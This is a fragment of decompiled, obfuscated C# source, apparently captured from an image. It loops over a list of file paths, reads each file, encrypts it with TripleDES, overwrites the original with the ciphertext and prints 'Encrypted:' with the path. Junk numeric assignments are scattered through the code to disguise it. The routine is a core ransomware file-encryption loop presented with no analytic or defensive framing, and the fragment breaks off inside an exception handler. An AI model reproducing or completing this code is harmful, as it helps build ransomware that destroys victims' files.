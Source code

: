 ```net
		string[] array5 = array4;
		<Module>.j = -1529522494;
		bool flag2 = num3 < array5.Length;
		<Module>.o = 1526447315;
		<Module>.j = 1987339265;
		flag = flag2;
		bool flag3 = flag;
		<Module>.a = null;
		if (!flag3)
		{
			break;
		}
		<Module>.j = 1845842485;
		TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider;
		<Module>.c = tripleDESCryptoServiceProvider;
		text2 = array4[num2];
		try
		{
			<Module>.q = -759738571;
			<Module>.b = null;
			<Module>.q = 1898371779;
			string path = text2;
			a.b = flag;
			byte[] array6 = File.ReadAllBytes(path);
			<Module>.g = null;
			a.b = "185ee01d-8c67-459c-9586-6804417e592ce434881f-7f35-4ffd-bdf6-4a1f244e25084e41b92d-afec-";
			<Module>.d = null;
			byte[] array7 = array6;
			<Module>.h = 1308380089;
			tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
			SymmetricAlgorithm symmetricAlgorithm = tripleDESCryptoServiceProvider;
			Encoding ascii = Encoding.ASCII;
			string s = text;
			<Module>.k = 401140706;
			symmetricAlgorithm.Key = ascii.GetBytes(s);
			<Module>.o = 1203310366;
			SymmetricAlgorithm symmetricAlgorithm2 = tripleDESCryptoServiceProvider;
			byte[] iv = array2;
			c.b = text;
			symmetricAlgorithm2.IV = iv;
			byte[] array8 = b.b(array7, tripleDESCryptoServiceProvider);
			string path2 = text2;
			byte[] bytes = array8;
			<Module>.n = -1749758540;
			File.WriteAllBytes(path2, bytes);
			string str = "Encrypted: ";
			a.b = "102abfb4-ec8b-4922-9b54-2f17b2c5b52d6d";
			string str2 = text2;
			Exception ex;
			<Module>.a = ex;
			Console.WriteLine(str + str2);
			c.b = 1876936332;
		}
		catch (Exception ex2)
		{
			<Module>.m = -1040838703;
			Exception ex = ex2;
			string str3 = "Error: ";
			Exception ex3 = ex;
			a.b = tripleDESCryptoServiceProvider;
			string text3 = str3 + ex3.Message;
			<Module>.o = 1057425350;
```